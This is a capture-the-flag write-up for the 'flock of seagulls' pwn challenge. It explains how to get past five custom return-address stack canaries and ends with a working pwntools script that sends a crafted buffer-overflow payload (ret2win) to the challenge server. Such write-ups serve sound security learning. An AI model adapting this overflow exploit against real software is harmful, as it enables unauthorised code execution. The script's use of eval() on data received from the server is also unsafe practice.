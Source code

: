 # flock of seagulls

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/57ed551c-f1b3-442f-adb5-302f0a72d48b)

see [./flock](./flock)

## solution

taking a look at binja, there are 5 artificial stack canaries on the stack that rely on comparing the function return address on the stack (based off of rbp) and the actual return address.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/59ae1a41-d6b1-4923-82ce-073c5f109004)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/c41d76c0-9d48-4d51-9b85-92ef4e5a4051)

so to get past the stack canaries, i had to overwrite the real return address with the real return address 4 times, as well as the stack pointer, and then do a ret2win

```py
from pwn import *

# p = gdb.debug(["./flock"], gdbscript="break *0x40125b\nlayout asm\nwinheight asm -4\nc")
p = remote("chal.2023.sunshinectf.games", 23002)

p.recvuntil(b'Song Begins At ')
s = p.recvline(keepends=False).decode('ascii')
print(s)

p.sendline(p64(eval(s)+16) + p64(0x4012a0) + p64(eval(s)+32) + p64(0x4012ca) + p64(eval(s)+48) + p64(0x4012f0) + p64(eval(s)+64)
           + p64(0x401268) + p64(0x4011b9) + b'c'*56 + p64(eval(s)) + p64(0x401276) + cyclic(128))

p.interactive()
```
